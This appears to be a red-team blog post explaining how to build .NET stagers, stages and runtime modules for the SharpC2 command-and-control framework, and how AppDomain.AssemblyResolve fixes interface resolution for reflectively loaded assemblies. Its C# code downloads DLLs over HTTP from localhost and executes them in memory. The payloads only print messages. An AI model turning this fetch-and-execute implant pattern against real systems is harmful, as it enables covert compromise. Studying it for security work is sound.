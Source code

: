 ```yaml
---
title: "AppDomain.AssemblyResolve"
date: 2020-12-21T12:06:54Z
draft: false
authors:
    - RastaMouse
---
```


### Intro

[Jean Maes](https://twitter.com/Jean_Maes_1994) posted a blog entitled "[A tale of .NET assemblies, cobalt strike size constraints, and reflection](https://redteamer.tips/a-tale-of-net-assemblies-cobalt-strike-size-constraints-and-reflection/)", which looked at how to use the [AssemblyResolve](https://docs.microsoft.com/en-us/dotnet/api/system.appdomain.assemblyresolve?view=net-5.0) event to locate .NET dependancies at runtime that were not already weaved into an assembly or located in the [GAC](https://docs.microsoft.com/en-us/dotnet/framework/app-domains/gac).

For a decent background, I encourage readers to review Jean's post.  Since the author credits me for pointing them towards the event, I thought it would be informative to write about the scenario under which I came across it.

### .NET "Stagers", "Stages" and "Modules"

It all started one sunny morning (although I live in the UK so let's face it, it was probably raining) when I was thinking about how I could implement stagers and modules in [SharpC2](https://github.com/SharpC2/SharpC2) (my .NET C2 framework).  I won't use the SharpC2 codebase because it's a little too much to get into just for the purposes of this post, so I'll use some more simplistic examples instead.

The "stage" or "implant" is the main payload that contains all the functionality and logic we need to operate on a compromised machine.  At a minimum, this probably includes the ability to talk to a server, retrieve jobs, execute those jobs and send the results back.  One challenge with implants is that the more complex they become, the larger their filesize and the harder they become to deliver (e.g. during initial compromise).  Stagers are one solution to this problem - as they are tiny programs that can be delivered with the sole responsibility of pulling and loading the main stage.

Let's write a very simpe stage and stager:

#### Stage (.NET Class Library)
```c#
using System;

namespace Stage
{
    public class StageEntry
    {
        public static void Execute()
        {
            Console.WriteLine("[+] Hello from Stage");
        }
    }
}
```

#### Stager (.NET Console Application)
```c#
using System;
using System.Net;
using System.Reflection;

namespace Stager
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("[+] Hello from Stager");
            Console.WriteLine("[+] Loading Stage...");

            using (var client = new WebClient())
            {
                var uri = new Uri("http://localhost:8000/stage.dll");
                var stage = client.DownloadData(uri);
                var asm = Assembly.Load(stage);
                asm.GetType("Stage.StageEntry").GetMethod("Execute").Invoke(null, new object[] { });
            }
        }
    }
}
```

This works as expected - the stager downloads and executes the stage.

```text
C:\>Stager.exe
[+] Hello from Stager
[+] Loading Stage...
[+] Hello from Stage
```

Now, one of the design decisions that were made regarding the SharpC2 implant was to make it extensible at runtime.  If the operator needed to push some new capability that was not "native" to the implant, then we wanted a means to provide that functionality.  To that end, we designed an interface on the implant that 3rd party modules could implement.

#### Module (.NET Class Library)

The exact implemention of the interface is not important - to demonstrate, we can use:

```c#
namespace Stage
{
    public interface IAgentModule
    {
        void Test();
    }
}
```

Then the module would look like this (note that it's a separate project in Visual Studio with a reference to the Stage project):

```c#
using Stage;
using System;

namespace Module
{
    public class AgentModule : IAgentModule
    {
        public void Test()
        {
            Console.WriteLine("[+] Hello from Module");
        }
    }
}
```

We shall now change the `Execute` method within the stage to:

```c#
public static void Execute()
{
    Console.WriteLine("[+] Hello from Stage");
    Console.WriteLine("[+] Loading Module...");

    using (var client = new WebClient())
    {
        var uri = new Uri("http://localhost:8000/module.dll");
        var bytes = client.DownloadData(uri);

        var asm = Assembly.Load(bytes);
        var instance = asm.CreateInstance("Module.AgentModule", true);

        if (instance is IAgentModule module)
        {
            module.Test();
        }
        else
        {
            Console.WriteLine("[-] Module does not implement IAgentModule");
        }
    }
}
```

However, if we run the stager, we get the following:

```text
C:\>Stager.exe
[+] Hello from Stager
[+] Loading Stage...
[+] Hello from Stage
[+] Loading Module...
[-] Module does not implement IAgentModule
```

### AppDomain.AssemblyResolve

It appears that the assembly is failing to locate `IAgentModule`, and this is finally where we get to the `AssemblyResolve` event.  If we place a breakpoint around `if (asm is IAgentModule)`, we can use the Immediate Window in Visual Studio to do some poking around.

```text
Assembly.GetCallingAssembly().FullName
"Stager, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"

AppDomain.CurrentDomain.FriendlyName
"Stager.exe"
```

We can see that our current AppDomain is that of stager.exe and stager is the current calling assembly.  Since the `IAgentInterface` is part of the **stage**, this explains why the resolution is failing.  All we have to do is register the AssemblyResolve callback to get an instance of the stage assembly where resolution will succeed.

```c#
AppDomain.CurrentDomain.AssemblyResolve += AssemblyResolveCallback;
```

And the method to handle this callback:

```c#
static Assembly AssemblyResolveCallback(object sender, ResolveEventArgs args) => Assembly.GetExecutingAssembly();
```

Even though stager is the calling assembly, stage is the executing assembly.  The stage in full is now:

```c#
using System;
using System.Net;
using System.Reflection;

namespace Stage
{
    public class StageEntry
    {
        public static void Execute()
        {
            Console.WriteLine("[+] Hello from Stage");
            Console.WriteLine("[+] Loading Module...");

            using (var client = new WebClient())
            {
                var uri = new Uri("http://localhost:8000/module.dll");
                var bytes = client.DownloadData(uri);

                AppDomain.CurrentDomain.AssemblyResolve += AssemblyResolveCallback;

                var asm = Assembly.Load(bytes);
                var instance = asm.CreateInstance("Module.AgentModule", true);

                if (instance is IAgentModule module)
                {
                    module.Test();
                }
                else
                {
                    Console.WriteLine("[-] Module does not implement IAgentModule");
                }
            }
        }

        static Assembly AssemblyResolveCallback(object sender, ResolveEventArgs args) => Assembly.GetExecutingAssembly();
    }
}
```

And now we get:

```text
C:\>Stager.exe
[+] Hello from Stager
[+] Loading Stage...
[+] Hello from Stage
[+] Loading Module...
[+] Hello from Module
```